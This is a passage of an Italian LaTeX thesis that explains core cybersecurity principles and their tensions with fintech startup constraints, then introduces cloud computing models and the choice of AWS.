L'architettura infrastrutturale e la postura di sicurezza di una startup fintech sono intrinsecamente complesse, dovendo bilanciare l'agilità richiesta dal mercato con la stringente necessità di proteggere dati finanziari estremamente sensibili e di aderire a un panorama normativo in continua evoluzione. Prima di poter analizzare le implementazioni di sicurezza specifiche, è imperativo delineare i principi cardine della cybersecurity che devono guidare ogni decisione architetturale e operativa, con un focus sulle peculiari criticità che le startup fintech, per loro natura, si trovano ad affrontare. Questo capitolo esamina tali principi fondamentali, evidenziando come le dinamiche tipiche delle startup – risorse limitate, team multifunzionali, pressione per un rapido time-to-market e l'imperativo della scalabilità – interagiscano, e spesso confliggano, con l'applicazione rigorosa di queste best practice. La gestione dei dati dei clienti, delle transazioni finanziarie e della proprietà intellettuale in un ambiente ad alto rischio richiede un approccio alla sicurezza che sia al contempo robusto, adattabile e integrato fin dalla concezione (Security by Design).
\section{Triade CIA: Il Nucleo della Sicurezza delle Informazioni}
La Triade CIA – Confidentiality (Riservatezza), Integrity (Integrità) e Availability (Disponibilità) – costituisce il framework concettuale universalmente riconosciuto per la sicurezza delle informazioni \cite{NIST_SP_1800_26}. Questi tre pilastri sono interdipendenti e fondamentali per la progettazione di qualsiasi strategia di sicurezza informatica resiliente, specialmente in contesti ad alta sensibilità come quello fintech.
\begin{itemize}
\item \textbf{Confidentiality (Riservatezza)}: Assicura che le informazioni siano accessibili solo a entità autorizzate, proteggendo la privacy individuale e i dati proprietari da divulgazioni indebite \cite{NIST_SP_1800_26}. Meccanismi tipici includono la crittografia end-to-end (E2EE) per dati in transito e at-rest, controlli di accesso granulari basati su ruoli (RBAC), autenticazione multi-fattore (MFA), e una gestione rigorosa delle chiavi crittografiche.
Nel contesto di una startup fintech, la riservatezza è messa a dura prova. L'accesso a dati finanziari sensibili (es. PAN, CVV, dettagli di conti bancari, PII) deve essere blindato. Tuttavia, la fluidità dei ruoli in team snelli spesso conduce a una condivisione pragmatica delle credenziali o all'assegnazione di privilegi sovradimensionati per accelerare i cicli di sviluppo e deployment. La gestione delle chiavi crittografiche, un compito altamente specializzato, può diventare un'area grigia: l'adozione di servizi gestiti (KMS) offerti dai cloud provider può mitigare parte della complessità, ma richiede comunque una corretta configurazione e una chiara attribuzione di responsabilità per prevenire accessi non autorizzati o perdite di chiavi.

\item \textbf{Integrity (Integrità)}: Garantisce che le informazioni siano protette da modifiche o distruzioni non autorizzate o accidentali, assicurando l'autenticità e la non ripudiabilità dei dati \cite{NIST_SP_1800_26}. L'integrità è vitale per la fiducia nelle transazioni finanziarie e nei saldi dei conti. Le tecniche includono:
\begin{itemize}
    \item Funzioni di hash crittografiche (es. SHA-256, SHA-3) per la verifica dell'immutabilità.
    \item Firme digitali (basate su PKI) per l'autenticazione dell'origine e l'integrità dei messaggi.
    \item Sistemi di controllo versione (es. Git con commit firmati) per codice e configurazioni.
    \item Checksum e meccanismi di error detection/correction in storage e trasmissione.
    \item Log di audit immutabili.
\end{itemize}

Per una startup fintech, compromettere l'integrità dei dati transazionali o dei saldi dei clienti ha conseguenze catastrofiche, erodendo istantaneamente la fiducia e la brand reputation, oltre a potenziali implicazioni legali e sanzionatorie. La pressione per rilasci software frequenti (CI/CD) può portare a cicli di testing affrettati, aumentando il rischio di bug che potrebbero corrompere i dati. Inoltre, l'integrazione con numerose API di terze parti (es. per KYC/AML, open banking, payment gateway) introduce dipendenze la cui affidabilità in termini di integrità dei dati scambiati deve essere costantemente monitorata.

\item \textbf{Availability (Disponibilità)}: Assicura che i sistemi e i dati siano accessibili e utilizzabili su richiesta da parte di un utente autorizzato, in modo tempestivo e affidabile \cite{NIST_SP_1800_26}. Interruzioni di servizio, dovute a guasti, errori di configurazione o attacchi (es. DDoS, ransomware), possono paralizzare le operazioni di una fintech, con perdite finanziarie dirette e un danno reputazionale ingente. Le strategie per l'alta disponibilità includono:
\begin{itemize}
    \item Architetture ridondanti (N+1, N+M) per server, reti, storage e power.
    \item Piani di Disaster Recovery (DR) e Business Continuity (BCP) testati regolarmente.
    \item Load balancing e auto-scaling per gestire picchi di traffico.
    \item Protezione anti-DDoS a livello di rete e applicativo.
    \item Backup frequenti, possibilmente immutabili e off-site.
\end{itemize}

Le startup fintech, specialmente nelle fasi iniziali, spesso operano con infrastrutture ottimizzate per i costi, talvolta sottodimensionate rispetto a una crescita esplosiva degli utenti o a picchi di carico imprevisti. Questa limitata capacità iniziale può rendere i sistemi particolarmente vulnerabili ad attacchi DoS/DDoS volumetrici o applicativi, capaci di saturare le risorse e causare downtime prolungati. La dipendenza da singoli cloud provider o regioni specifiche può anche costituire un single point of failure se non mitigata da strategie multi-region o multi-cloud, spesso considerate troppo costose o complesse all'inizio.
\end{itemize}
\section{Difesa in Profondità (Defense in Depth)}
Il principio di Difesa in Profondità (DiD) postula la necessità di implementare controlli di sicurezza multipli e stratificati, in modo che il fallimento di un singolo controllo non comprometta l'intero sistema \cite{NIST_SP_800_53}. Questo approccio mira a creare barriere successive per rallentare, rilevare e rispondere agli attacchi. La strategia DiD, come delineata anche dal NIST, si articola in architetture resistenti alla penetrazione, operazioni di limitazione del danno e progettazione per la cyber resilienza \cite{NIST_SP_800_172}.
Nelle startup fintech, l'adozione di una DiD completa è spesso ostacolata da vincoli di budget, expertise e dalla velocità richiesta dal business. Ad esempio, mentre una segmentazione rigorosa della rete (con DMZ, reti interne dedicate per produzione, staging, sviluppo, e micro-segmentazione a livello di workload) è fondamentale, le startup potrebbero optare per architetture di rete "piatte" per semplificare il deployment iniziale e ridurre l'overhead gestionale, rimandando una segmentazione più granulare. Analogamente, l'implementazione di soluzioni come Web Application Firewall (WAF), Intrusion Detection/Prevention Systems (IDS/IPS), e Security Information and Event Management (SIEM) può essere graduale, partendo da soluzioni più basiche o cloud-native, ma lasciando potenziali lacune nella copertura difensiva nelle prime fasi.
\section{Principio del Minimo Privilegio (Principle of Least Privilege - PoLP)}
Il PoLP stabilisce che a ogni utente, processo o sistema dovrebbero essere concessi solo i privilegi strettamente necessari per svolgere le proprie funzioni autorizzate, e solo per il tempo necessario \cite{NIST_Glossary}. Questo limita drasticamente il potenziale danno derivante da un account compromesso, un errore umano o un insider malevolo.
Nelle startup fintech, la cultura dell' "execution at all costs" e i team "generalisti" possono portare a una diffusa assegnazione di privilegi amministrativi o accessi ampi. Per esempio, è comune che gli sviluppatori abbiano accesso diretto, talvolta con privilegi di scrittura, ai database di produzione per troubleshooting o rapidi fix, bypassando processi di change management più strutturati. Sebbene ciò possa accelerare la risoluzione di problemi urgenti, espone l'organizzazione a rischi significativi: un singolo account sviluppatore compromesso potrebbe portare alla fuoriuscita o alla manipolazione di ingenti quantità di dati finanziari sensibili. L'implementazione di Just-In-Time (JIT) access e di un rigoroso Role-Based Access Control (RBAC) richiede un investimento iniziale in termini di progettazione e configurazione che può essere percepito come un rallentamento.
\section{Separazione dei Compiti (Separation of Duties - SoD)}
La SoD prevede la suddivisione di compiti critici e responsabilità tra individui differenti per prevenire frodi, errori e abusi, assicurando che nessuna singola persona abbia il controllo esclusivo su una transazione o processo end-to-end \cite{OSCAL_Content}. Ciò include la separazione tra chi sviluppa, chi testa, chi rilascia e chi opera i sistemi, nonché tra chi amministra i controlli di accesso e chi ne verifica l'audit.
Nelle startup fintech, con team spesso composti da pochi individui altamente versatili, la SoD rappresenta una sfida strutturale. Non è raro che un singolo ingegnere DevOps sia responsabile dell'intera pipeline CI/CD, dalla scrittura del codice infrastrutturale (IaC) al deployment in produzione e al monitoraggio della sicurezza. In uno scenario di sviluppo di una piattaforma di pagamento, la stessa persona potrebbe definire le logiche di transazione e configurare i controlli di accesso ai dati finanziari sottostanti. Questa concentrazione di potere, sebbene efficiente operativamente, elimina i meccanismi di controllo incrociato, aumentando il rischio che errori, vulnerabilità o attività malevole non vengano rilevati tempestivamente.
\section{Zero Trust Architecture (ZTA)}
Il modello Zero Trust (ZT) rovescia il paradigma tradizionale "trust but verify", assumendo che nessuna entità, interna o esterna al perimetro di rete, sia intrinsecamente affidabile. Ogni richiesta di accesso a una risorsa deve essere autenticata, autorizzata e crittografata dinamicamente, basandosi su policy granulari e sul contesto \cite{NIST_SP_800_207}. La ZTA è una risposta strategica alla dissoluzione dei perimetri tradizionali, con risorse in cloud, utenti remoti e una crescente interconnessione.
Per una startup fintech, l'adozione completa di un'architettura Zero Trust è un percorso complesso e oneroso. Le fasi iniziali possono vedere una singola figura tecnica con "chiavi del regno" per l'intera infrastruttura cloud, contravvenendo al principio di verifica continua per ogni accesso. Implementare la micro-segmentazione a livello di rete e applicativo, sistemi IAM sofisticati con policy dinamiche, e piattaforme di monitoraggio continuo (es. Extended Detection and Response - XDR) richiede investimenti significativi in tecnologie e competenze specialistiche, spesso al di là della portata immediata di una startup. La mancanza di SoD esacerba ulteriormente il problema, rendendo difficile l'applicazione di policy di accesso granulari e la loro revisione costante.
\section{Economia del Meccanismo (Economy of Mechanism)}
Formulato da Saltzer e Schroeder, questo principio di design della sicurezza enfatizza la necessità di mantenere i meccanismi di protezione il più semplici e piccoli possibile \cite{Saltzer_Schroeder_1975}. Una minore complessità riduce la superficie d'attacco, facilita l'analisi, l'audit, i test e la manutenzione, minimizzando la probabilità di errori di implementazione o configurazione e l'accumulo di debito tecnico con implicazioni per la sicurezza \cite{Smith_2012_SaltzerReview}.
Strategie includono:
\begin{itemize}
\item Architetture a microservizi ben definite, con confini di responsabilità chiari e API sicure, per isolare l'impatto di una compromissione.
\item Adozione di Infrastructure-as-Code (IaC) per una gestione dichiarativa, versionata e auditabile dei controlli di sicurezza.
\item Preferenza per librerie e componenti con un focus specifico e una base di codice ridotta e ben testata.
\end{itemize}
Nelle startup fintech, la spinta verso un MVP (Minimum Viable Product) e successivi rapidi cicli di iterazione può favorire l'integrazione di framework complessi o la creazione di monoliti applicativi che, pur accelerando lo sviluppo iniziale, diventano rapidamente difficili da manutenere e securizzare. La tentazione di aggiungere "solo un'altra feature" senza un adeguato refactoring può portare a un aumento della complessità e, di conseguenza, a una maggiore fragilità della sicurezza. Un investimento precoce nella semplicità architetturale e nella modularità, sebbene possa sembrare un rallentamento, si traduce in una riduzione dei costi di remediation e testing nel lungo periodo.
\section{Impostazioni Sicure per Difetto (Fail-Safe Defaults / Secure Defaults)}
Questo principio, anch'esso di Saltzer e Schroeder, stabilisce che l'accesso a risorse e funzionalità debba essere negato per default, richiedendo un'autorizzazione esplicita (approccio "allow-list") piuttosto che permettere tutto tranne ciò che è esplicitamente negato (approccio "deny-list") \cite{Saltzer_Schroeder_1975}. In assenza di un permesso esplicito, l'azione deve essere bloccata. Il NIST SP 800-27rA, pur non usando la stessa terminologia, supporta concetti affini enfatizzando la necessità di configurazioni sicure di base \cite{NIST_SP_800_27rA}.
Esempi applicativi:
\begin{itemize}
\item Policy "Deny All" su firewall di rete e WAF, con regole granulari per il traffico legittimo.
\item Policy IAM cloud (es. AWS IAM, Azure RBAC, Google Cloud IAM) che partono da uno stato di nessun permesso, aggiungendo solo le autorizzazioni minime necessarie.
\item Disabilitazione di funzionalità non essenziali e porte non utilizzate su server e servizi.
\end{itemize}
Nelle startup fintech, la pressione per la velocità può portare a trascurare questo principio. È frequente che i servizi cloud vengano istanziati con le configurazioni di default del provider, che non sempre sono le più restrittive (es. bucket S3 accessibili pubblicamente in passato, o ruoli IAM con permessi eccessivi). La mentalità del "facciamolo funzionare, poi lo sistemiamo" spesso relega la revisione e l'hardening delle configurazioni a una fase successiva, che potrebbe non arrivare mai o arrivare troppo tardi, esponendo dati sensibili. L'utilizzo di template IaC pre-configurati con standard di sicurezza restrittivi può mitigare questo rischio, ma richiede una disciplina iniziale.
\section{Mediazione Completa (Complete Mediation)}
Ogni accesso a ogni oggetto protetto (file, record, API endpoint) deve essere validato rispetto ai controlli di autorizzazione ogni singola volta, senza fare affidamento su decisioni di accesso memorizzate o cache che potrebbero essere obsolete o compromesse \cite{Saltzer_Schroeder_1975}. Questo previene il bypass dei meccanismi di sicurezza dopo un'autenticazione iniziale.
Implementazioni pratiche:
\begin{itemize}
\item API Gateway che validano token di autenticazione/autorizzazione (es. JWT) per ogni richiesta.
\item Applicazione di Row-Level Security (RLS) e Column-Level Security nei database per garantire che le policy siano enforce direttamente a livello di dato.
\item Meccanismi di step-up authentication per operazioni ad alto rischio.
\end{itemize}
In una piattaforma fintech che gestisce pagamenti o dati di investimento, questo principio è cruciale. Ad esempio, l'utilizzo di token di sessione a breve scadenza (short-lived) e la richiesta di ri-autenticazione forte (MFA) per operazioni critiche come la modifica dei dettagli del beneficiario, l'iniziazione di trasferimenti sopra una certa soglia, o l'accesso a informazioni particolarmente sensibili, sono applicazioni dirette della mediazione completa. Non ci si può fidare di una sessione utente "attiva" per troppo tempo o per operazioni di impatto elevato.
\section{Resilienza Cibernetica (Cyber Resiliency)}
La resilienza cibernetica è la capacità di un sistema di anticipare, resistere, recuperare e adattarsi a condizioni avverse, stress, attacchi o compromissioni, preservando le funzionalità critiche mission-critical \cite{NIST_SP_800_160v2_2019}. Le strategie includono ridondanza dinamica, degradazione controllata dei servizi (graceful degradation), archiviazione sicura e immutabile dei log per analisi forense e ripristino, e piani di risposta agli incidenti ben definiti e testati.
Per le startup fintech, spesso operanti in ambienti cloud con risorse DevOps limitate, la resilienza deve essere progettata fin dall'inizio. Questo implica non solo backup e restore, ma anche piani di Business Continuity e Disaster Recovery (BC/DR) che considerino scenari di indisponibilità regionale del cloud provider o attacchi ransomware. L'adozione di pratiche di chaos engineering, seppur in forma semplificata, può aiutare a identificare proattivamente le debolezze del sistema e a validare la robustezza dei meccanismi di recovery.
\section{Responsabilizzazione e Non-Ripudio (Accountability and Non-Repudiation)}
L'accountability richiede che ogni azione significativa sia tracciabile univocamente a un'entità (utente o processo) e che esistano prove verificabili di tali azioni \cite{Feigenbaum_2020_Accountability}. La non-ripudiabilità garantisce che una parte non possa negare di aver eseguito un'azione o inviato/ricevuto dati (es. una transazione finanziaria) \cite{NIST_Glossary_NonRepudiation}. Firme digitali, marche temporali qualificate e log di audit dettagliati e immutabili sono strumenti chiave.
Esempi:
\begin{itemize}
\item Log di audit granulari (es. chi ha fatto cosa, quando, da dove, su quale risorsa), firmati digitalmente, marcati temporalmente (RFC 3161), e archiviati in sistemi WORM (Write Once Read Many) o con Object Lock.
\item Uso di firme digitali per transazioni e comunicazioni critiche.
\end{itemize}
Per le startup fintech, questi principi sono fondamentali per la conformità normativa (es. PSD2, che impone Strong Customer Authentication e tracciabilità delle transazioni) e per la gestione delle dispute. La capacità di dimostrare in modo inconfutabile l'origine e l'integrità di ogni operazione finanziaria è un requisito non negoziabile. La PSD2, ad esempio, attraverso i suoi Regulatory Technical Standards (RTS) su SCA e CSC, enfatizza la necessità di generare e conservare prove delle transazioni e degli accessi sicuri \cite{EBA_RTS_SCA_CSC}.
\section{Privacy by Design (PbD) e Privacy by Default}
Il framework della Privacy by Design (PbD), concettualizzato da Ann Cavoukian, postula l'integrazione proattiva della protezione dei dati personali fin dalle primissime fasi di progettazione di sistemi, servizi, prodotti e processi di business, rendendo la privacy un'impostazione predefinita (Privacy by Default) \cite{Cavoukian_PbD_2009}. I sette principi fondanti includono: proattività, privacy come impostazione di default, privacy incorporata nel design, piena funzionalità (somma positiva, non somma zero tra privacy e funzionalità), sicurezza end-to-end, visibilità e trasparenza, e rispetto per la privacy dell'utente.
Misure concrete:
\begin{itemize}
\item \textbf{Minimizzazione dei Dati}: Raccolta, trattamento e conservazione dei soli dati personali strettamente necessari e pertinenti alle finalità dichiarate.
\item \textbf{Tecniche di Anonimizzazione e Pseudonimizzazione (PETs - Privacy Enhancing Technologies)}: Applicazione di tecniche come differential privacy, k-anonymity, homomorphic encryption (per calcoli su dati cifrati), o pseudonimizzazione per dataset analitici, sviluppo, test, o condivisione con terze parti.
\item \textbf{Mappatura e Valutazione d'Impatto sulla Protezione dei Dati (DPIA)}: Mantenimento di registri delle attività di trattamento (Art. 30 GDPR) e conduzione di DPIA per trattamenti a rischio elevato.
\end{itemize}
Nel settore fintech, dove si trattano enormi volumi di dati personali e finanziari altamente sensibili, l'adozione di PbD è un imperativo legale (GDPR) ed etico. Implementare Data Loss Prevention (DLP), classificare i dati fin dall'inizio, e integrare controlli sulla privacy nei cicli di sviluppo agile (es. "privacy stories" nelle sprint) sono pratiche essenziali. Questo non solo mitiga il rischio di violazioni dei dati, sanzioni e danni reputazionali, ma costruisce anche la fiducia degli utenti, un asset inestimabile per qualsiasi fintech.
\subsection{Conclusioni Preliminari del Capitolo}
I principi di cybersecurity qui delineati – dalla Triade CIA alla Privacy by Design – rappresentano le fondamenta su cui ogni startup fintech deve costruire la propria strategia di sicurezza. Tuttavia, come emerso, la loro applicazione rigorosa si scontra frequentemente con le dinamiche operative tipiche delle aziende in fase di avviamento: la scarsità di risorse finanziarie e umane specializzate, la pressione per un rapido ingresso e affermazione sul mercato, e la necessità di mantenere un'elevata agilità operativa.
Questa tensione intrinseca non deve però tradursi in una rinuncia alla sicurezza, bensì in un approccio strategico che integri questi principi in modo pragmatico e progressivo, prioritizzando i controlli in base al rischio e alla criticità dei dati e dei processi coinvolti. Comprendere queste sfide è il primo passo per sviluppare architetture e soluzioni di sicurezza che siano non solo tecnicamente valide, ma anche sostenibili ed efficaci nel peculiare contesto di una startup fintech. I capitoli successivi esploreranno come questi principi possano essere tradotti in architetture e controlli tecnologici specifici, tenendo conto di queste sfide.

\chapter{Principi dell'Infrastruttura Cloud e Scelta di AWS}
\label{ch:cloud-aws}
Dopo aver introdotto le sfide di cybersecurity specifiche per le startup fintech, è fondamentale comprendere il contesto tecnologico in cui queste operano. Oggi, la stragrande maggioranza delle nuove imprese, specialmente nel settore tecnologico e finanziario, basa la propria infrastruttura su modelli di \textbf{cloud computing}. Questo capitolo esplora i motivi di questa scelta, confrontando l'approccio cloud con quello tradizionale on-premises, e introduce \textbf{Amazon Web Services (AWS)}, il provider cloud scelto nel nostro caso studio, delineandone la struttura e i principi fondamentali.
\section{Fondamenti di Cloud Computing}
Il cloud computing è un modello di fruizione IT \textit{"on-demand"} che abilita l'accesso ubiquo e conveniente via rete a un pool condiviso di risorse computazionali configurabili (reti, server, storage, applicazioni e servizi) che possono essere predisposte o rilasciate rapidamente con il minimo sforzo di gestione o intervento del provider \cite{nist800-145}.

Il modello di cloud computing definito dal NIST (National Institute of Standards and Technology) si basa su cinque caratteristiche essenziali che ne delineano la natura e il funzionamento. Queste caratteristiche sono fondamentali per comprendere come il cloud si differenzi da altre forme tradizionali di gestione delle risorse IT e perché rappresenti un'evoluzione significativa per l'erogazione di servizi digitali. Vediamole nel dettaglio:

\begin{itemize}
  \item \textbf{Autoservizio on-demand (On-demand self-service):} Gli utenti possono, in autonomia e senza l'intervento diretto del fornitore di servizi, approvvigionarsi delle risorse di cui hanno bisogno (come spazio di archiviazione, potenza di calcolo, ecc.) tramite interfacce self-service, spesso via web \cite{nist800-145}.

  \item \textbf{Accesso ampio alla rete (Broad network access):} Le risorse cloud sono accessibili attraverso la rete tramite meccanismi standard (ad esempio browser web, app mobili), favorendo l'uso da dispositivi eterogenei come smartphone, tablet, laptop e workstation \cite{nist800-145}.

  \item \textbf{Resource pooling (Multitenancy):} Le risorse del fornitore sono raggruppate per servire più clienti (tenant) usando un modello multi-tenant, in cui risorse fisiche e virtuali vengono assegnate e riassegnate dinamicamente in base alla domanda dei vari utenti. Questo garantisce efficienza e ottimizzazione nell'uso dell'infrastruttura \cite{nist800-145}.

  \item \textbf{Rapid elasticity (Scalabilità rapida ed elasticità):} Le capacità possono essere scalate rapidamente, spesso automaticamente, in base alle necessità dell'utente. Dal punto di vista del cliente, le risorse disponibili spesso appaiono illimitate e possono essere acquistate in qualsiasi quantità e in qualsiasi momento \cite{nist800-145}.

  \item \textbf{Servizio misurato (Measured service):} I sistemi cloud controllano e ottimizzano automaticamente l'uso delle risorse tramite capacità di misurazione appropriate (ad esempio, monitoraggio dell'archiviazione, dell'elaborazione, della larghezza di banda). Questo consente trasparenza sia per il provider sia per il consumatore del servizio \cite{nist800-145}.
\end{itemize}



\subsection{Modelli di servizio e distribuzione cloud}

I principali modelli di servizio e distribuzione cloud sono fondamentali per l'innovazione e la crescita delle startup fintech. Essi permettono di accedere a risorse tecnologiche avanzate in modo flessibile e scalabile, spesso con una riduzione dei costi iniziali, accelerando l'innovazione e migliorando l'agilità operativa \cite{vats2024systematic, hrmars2025cloud}. La comprensione di questi modelli è cruciale per le startup fintech che mirano a bilanciare efficienza, sicurezza e conformità normativa. Secondo lo standard internazionale ISO/IEC 17788, i modelli di servizio e di distribuzione offrono diverse opzioni per l'adozione del cloud \cite{iso2018overview}.

\subsubsection{Modelli di servizio cloud}

I modelli di servizio definiscono il livello di controllo e gestione dell'infrastruttura cloud da parte dell'utente. I tre modelli principali, IaaS, PaaS e SaaS, offrono diversi gradi di astrazione \cite{redhat2025cloud}.

\begin{itemize}
    \item \textbf{IaaS (Infrastructure as a Service):} questo modello fornisce infrastruttura IT on-demand come server, macchine virtuali, storage e rete, gestita dal provider cloud \cite{redhat2025cloud}. Le startup fintech possono così costruire e configurare ambienti IT complessi senza investire in hardware fisico, riducendo i costi di avvio e manutenzione \cite{vats2024systematic}. L'elasticità dell'IaaS consente di scalare rapidamente le risorse in base alla crescita del business o ai picchi di utilizzo, una caratteristica cruciale nel dinamico settore fintech \cite{vats2024systematic, hrmars2025cloud}.
    
    \item \textbf{PaaS (Platform as a Service):} fornisce una piattaforma completa, comprensiva di sistema operativo, middleware e strumenti di sviluppo, pronta per la creazione, esecuzione e gestione di applicazioni \cite{redhat2025cloud}. Il provider gestisce l'infrastruttura sottostante, permettendo agli sviluppatori fintech di concentrarsi sull'innovazione del software \cite{vats2024systematic}. Questo accelera il time-to-market di nuovi servizi finanziari e favorisce l'adozione di tecnologie avanzate come l'intelligenza artificiale e l'analisi dei dati \cite{vats2024systematic}.
    
    \item \textbf{SaaS (Software as a Service):} offre applicazioni software pronte all'uso accessibili tramite Internet, come CRM o piattaforme di pagamento \cite{redhat2025cloud}. Le startup fintech possono integrare rapidamente soluzioni di terze parti nei propri processi, ottimizzando le risorse e focalizzandosi sull'esperienza utente e sull'innovazione dei servizi \cite{vats2024systematic}.
\end{itemize}

Questi modelli di servizio sono stati analizzati in studi sistematici e bibliometrici, evidenziando come la loro adozione, specialmente in contesti agili come le PMI e le startup fintech, porti benefici in termini di flessibilità, riduzione dei costi e scalabilità \cite{vats2024systematic, hrmars2025cloud}.

\subsubsection{Modelli di distribuzione del cloud}

I modelli di distribuzione definiscono come l'infrastruttura cloud è resa disponibile e a chi è dedicata. I principali modelli includono cloud pubblico, privato, ibrido e comunitario \cite{maticmind2024hybrid, iso2018overview}.

\begin{itemize}
    \item \textbf{Public Cloud:} l'infrastruttura è di proprietà di un provider terzo (es. AWS, Azure, Google Cloud) e condivisa tra più clienti via Internet \cite{maticmind2024hybrid}. Per le startup fintech, il public cloud offre alta scalabilità e costi operativi proporzionali all'uso, ideale per lanciare servizi senza investimenti iniziali significativi \cite{maticmind2024hybrid}. Tuttavia, la condivisione delle risorse può sollevare preoccupazioni per la sicurezza e il controllo diretto, aspetti critici per i dati finanziari \cite{vats2024systematic, maticmind2024hybrid}.
    
    \item \textbf{Private Cloud:} l'infrastruttura è dedicata a una singola organizzazione, garantendo livelli superiori di controllo, sicurezza e conformità normativa \cite{maticmind2024hybrid}. Questo è essenziale per le fintech che trattano dati sensibili. Lo svantaggio principale risiede nei costi più elevati e nella minore scalabilità immediata rispetto al cloud pubblico \cite{maticmind2024hybrid}.
    
    \item \textbf{Hybrid Cloud:} combina ambienti pubblici e privati, permettendo di spostare carichi di lavoro in base alle necessità \cite{maticmind2024hybrid}. Una startup fintech può utilizzare il public cloud per servizi meno critici e il private cloud per dati regolamentati, bilanciando flessibilità, scalabilità, sicurezza e compliance \cite{maticmind2024hybrid}. Tuttavia, l'adozione del cloud ibrido nel fintech presenta sfide di sicurezza specifiche, che possono essere mitigate, ad esempio, attraverso l'uso della blockchain per garantire la compliance e la protezione dei dati sensibili \cite{urf2024security, vats2024systematic}. La gestione efficace di un ambiente ibrido è cruciale per ottimizzare i costi e mantenere la coerenza con i requisiti normativi \cite{maticmind2024hybrid}.
\end{itemize}

\subsection{Cloud Computing vs Infrastrutture On-Premises}
\label{sec:cloud-vs-onprem}

Tradizionalmente, le aziende gestivano la propria infrastruttura IT internamente, in data center di proprietà o in affitto. Questo modello è noto come \textbf{on-premises}. Richiede l'acquisto di hardware (server, storage, apparati di rete), software (sistemi operativi, licenze), e l'impiego di personale specializzato per la gestione, la manutenzione, gli aggiornamenti e la sicurezza fisica ed operativa.

Il \textbf{cloud computing}, invece, si basa sull'erogazione di risorse informatiche (come potenza di calcolo, storage, database, reti, software, analytics, intelligenza artificiale) tramite Internet, secondo un modello \textit{pay-as-you-go} (paga solo per ciò che consumi). I fornitori di servizi cloud (Cloud Service Provider - CSP), come AWS, Microsoft Azure o Google Cloud Platform, gestiscono l'infrastruttura fisica sottostante, permettendo ai clienti di accedere alle risorse di cui hanno bisogno in modo flessibile e scalabile.

Le differenze principali risiedono in:
\begin{itemize}
    \item \textbf{Costi:} On-premises richiede un ingente investimento iniziale (Capex - Capital Expenditure) per l'acquisto dell'hardware, mentre il cloud trasforma questo costo in una spesa operativa variabile (Opex - Operational Expenditure) basata sul consumo effettivo.
    \item \textbf{Scalabilità:} Il cloud offre scalabilità \textit{elastica}, permettendo di aumentare o diminuire le risorse quasi istantaneamente in base alla domanda. L'infrastruttura on-premises ha una scalabilità limitata e richiede pianificazione e acquisti anticipati per gestire picchi di carico.
    \item \textbf{Manutenzione:} Nel cloud, la manutenzione dell'hardware e dell'infrastruttura di base è responsabilità del provider, liberando il team IT del cliente da queste incombenze.
    \item \textbf{Agilità e Velocità:} Il cloud permette di provisionare nuove risorse in pochi minuti, accelerando notevolmente i cicli di sviluppo e il time-to-market di nuovi prodotti o servizi.
    \item \textbf{Affidabilità e Portata Globale:} I principali CSP dispongono di data center ridondati in diverse regioni geografiche, offrendo alta disponibilità e la possibilità di distribuire applicazioni a livello globale con bassa latenza.
\end{itemize}

\subsection{Perché le Startup Scelgono il Cloud}
\label{sec:startup-cloud-choice}

Per le startup, e in modo particolarmente accentuato per quelle operanti nel dinamico settore fintech che richiedono elevata agilità e una gestione efficiente delle risorse, il modello cloud computing offre vantaggi strategici e operativi decisivi rispetto alle tradizionali infrastrutture on-premises. Tali vantaggi includono:

\begin{itemize}
\item \textbf{Riduzione delle Barriere all'Ingresso e Ottimizzazione dei Costi:} L'eliminazione di ingenti investimenti iniziali in hardware e software (Capex) rende accessibili tecnologie avanzate anche a entità con budget limitati. Il modello di pagamento basato sul consumo effettivo (Opex) permette di allineare i costi direttamente alla crescita e all'utilizzo reale delle risorse.
\item \textbf{Agilità e Adattabilità delle Risorse:} Le startup possono avviare le proprie operazioni con un dimensionamento infrastrutturale minimo, per poi espandere o contrarre rapidamente le risorse in risposta alle dinamiche del mercato o alla crescita della base utenti e del volume transazionale. Questa capacità è fondamentale nel fintech, dove la domanda può essere volatile e imprevedibile. Le modalità tecniche attraverso cui si realizza tale agilità, ovvero scalabilità ed elasticità, saranno analizzate in dettaglio nel prosieguo della sezione.
\item \textbf{Focalizzazione Strategica sul Core Business:} Delegando la gestione, la manutenzione e l'aggiornamento dell'infrastruttura IT al Cloud Service Provider (CSP), la startup può concentrare le proprie risorse umane e finanziarie, spesso limitate, sullo sviluppo del prodotto, sull'innovazione di servizio e sull'acquisizione di quote di mercato, piuttosto che sulla complessa gestione dei sistemi.
\item \textbf{Accelerazione del Time-to-Market:} La capacità di provisionare e de-provisionare rapidamente ambienti di sviluppo, test e produzione consente di abbreviare significativamente i cicli di rilascio di nuove funzionalità e servizi, un fattore competitivo critico in settori ad alta innovazione come il fintech.
\item \textbf{Accesso a Tecnologie Avanzate e Servizi Gestiti:} I CSP mettono a disposizione un vasto portafoglio di servizi all'avanguardia, pronti all'uso e gestiti, che includono database performanti, piattaforme di machine learning, strumenti di big data analytics, e soluzioni di sicurezza. L'implementazione e la gestione autonoma di tali tecnologie on-premises comporterebbero costi e complessità proibitivi per la maggior parte delle startup.
\item \textbf{Elevati Livelli di Resilienza, Disponibilità e Sicurezza Infrastrutturale:} I CSP investono massicciamente in infrastrutture ridondanti e geograficamente distribuite, offrendo elevati livelli di disponibilità (tipicamente garantiti da Service Level Agreement - SLA) e resilienza operativa, spesso superiori a quanto una startup potrebbe garantire autonomamente. Questo si combina con solide fondamenta di sicurezza fisica e operativa dei data center (sebbene la sicurezza nel cloud, relativa ai dati e alle applicazioni, rimanga una responsabilità condivisa e primariamente del cliente).
\end{itemize}

Questi vantaggi sono resi possibili, a livello infrastrutturale, da caratteristiche intrinseche dei modelli cloud che risultano particolarmente sinergiche con le esigenze del fintech. Tra queste, spiccano la scalabilità, la flessibilità e l'elasticità, le cui specificità verranno ora analizzate.

\textbf{Scalabilità (Scalability):} Si riferisce alla capacità intrinseca di un sistema di incrementare la propria capacità elaborativa e di gestione dei dati per far fronte a un aumento del carico di lavoro. Tale incremento può essere pianificato (ad esempio, in previsione di una crescita organica del numero di utenti o di transazioni) e si attua mediante l'aggiunta di risorse (<em>scale-out</em>, aggiungendo più nodi) o l'aumento della potenza dei nodi esistenti (<em>scale-up</em>). Per una startup fintech, la scalabilità assicura che l'infrastruttura possa supportare l'espansione del business e gestire volumi di domanda crescenti, anche se caratterizzati da ciclicità prevedibile (es. picchi di fine mese per elaborazione stipendi o rendicontazioni).

